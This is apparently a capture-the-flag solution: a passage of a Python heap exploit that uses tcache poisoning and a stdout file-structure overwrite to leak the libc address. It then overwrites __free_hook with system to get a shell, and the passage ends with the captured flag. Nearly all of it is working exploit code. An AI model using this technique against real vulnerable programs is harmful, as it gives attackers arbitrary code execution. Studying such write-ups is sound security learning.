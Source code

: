 ```python


    remove(1)
    
    
    # tcache for 0x20 is empty so get a chunk in there to pull later
    new(20, "A")
    remove(1)
    

    new(-1, "A"*16 + p64(0x21) + p64(0x400) + "\x20\xe7")
    
    
    remove(0)
    
    
    new(144, "A")
    
    
    
    new(144, p64(0xfbad1800)+p64(0)*3+"\x00")
    
    try:
        dat = p.recvline()
        libc.address = u64(dat[24:32]) - 0x3d73e0
    except struct.error:
        print("skip")
        continue
    except EOFError:
        print("asdf")
        continue
    
    print("libc base", hex(libc.address))
    
    
    remove(0)
    
    
    new(0xe0, "iiiiiiii")
    
    remove(0)
    
    print("libc free hook", hex(libc.sym["__free_hook"]))
    print("libc system", hex(libc.sym["system"]))
    
    new(0xf0, "B"*0x50 + p64(0) + p64(0xc1) + p64(libc.sym["__free_hook"]))
    
    remove(0)
    
    new(0xb0, "/bin/sh")
    
    remove(1)
    
    new(0xb0, p64(libc.sym["system"]))
    
    remove(0)
    
    
    p.interactive()
```

Flag: `Poseidon{g00d_0ld_t1me_wh3n_tc4ch3_1s_571ll_cut3}`